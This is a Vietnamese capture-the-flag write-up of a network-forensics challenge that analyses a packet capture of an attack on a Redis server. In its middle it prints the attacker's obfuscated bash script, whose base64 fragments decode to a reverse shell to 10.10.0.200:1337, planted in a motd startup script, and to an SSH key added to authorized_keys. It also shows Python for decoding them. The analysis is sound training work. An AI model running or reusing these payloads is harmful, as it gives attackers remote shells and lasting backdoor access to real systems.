 # _REDTRAILS_
Lần này thử thách ở mức medium và flag được chia làm 3 phần
![image](https://github.com/user-attachments/assets/3580497d-6464-4fe6-a50a-cbbee1645a3b)

Tải về tệp zip, giải nén ta có được 1 file .pcapng, mình dùng wireshark để phân tích

![image](https://github.com/user-attachments/assets/9a9a2e07-9448-4f0b-aee3-7464ec81b8af)

Mở ra thì mình thấy có 2 giao thức quen thuộc là **TCP**, **HTTP** và 1 giao thức lần đầu mình gặp là **RESP**

![image](https://github.com/user-attachments/assets/4591df69-e5f7-4042-a6c2-69845dab820e)

Khi mình gặp **HTTP** thì mình thường dùng **export object HTTP** 

![image](https://github.com/user-attachments/assets/edfc54b5-1f16-457c-96f3-fa950caa3cc1)

Follow HTTP stream của packet đó ta được một đoạn hội thoại giữa client và server như sau

![image](https://github.com/user-attachments/assets/30c631b4-966e-4b88-b92e-1b084bfa81de)

Nhìn cũng chả hiểu gì nhưng mình thấy 1 đoạn mã rất giống base64 nhưng bị viết ngược, mình thử convert lại bằng python

![image](https://github.com/user-attachments/assets/676810c5-0bff-423c-8679-b2f59c6ecd57)

Lấy đoạn mã đó ném lên cyberchef from base64, ta được

```
#!/bin/bash

lhJVXukWibAFfkv() {
	ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
	QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
	gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash
}

x7KG0bvubT6dID2() {
	LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
	gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
	bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
	q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
	GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
	HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
	fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
	hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
	FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
	CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
	PIx1p="cw=="
	echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```
Theo ý hiểu của mình thì đây là một đoạn mã Bash bao gồm một tập hợp các hàm mã hóa bằng Base64, giải mã và thực thi mã đã giải bằng lệnh Bash. Nhìn thấy base64 khá ngứa tay nên viết 1 đoạn python để nối tất cả chúng lại

```
import base64

base64_strings = [
"ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R",
"jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9",
"ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK",
"ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL",
"M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52",
"bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH",
"ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s",
"bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK",
"UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr",
"R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3",
"SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp",
"emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw",
"Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5",
"cw==",
"lhJVXukWibAFfkv",
"x7KG0bvubT6dID2",

]
combined_base64 = "".join(base64_strings)
decoded_bytes = base64.b64decode(combined_base64)
decoded_string = decoded_bytes.decode('utf-8')
print(decoded_string)
```
Giải mã ta được 1 thứ gì đó..

![image](https://github.com/user-attachments/assets/96bbb608-cf11-4e11-a343-9405c40c1e5f)

Nhưng lấy dược part 1 của flag
```
HTB{r3d15_1n574nc35"
```





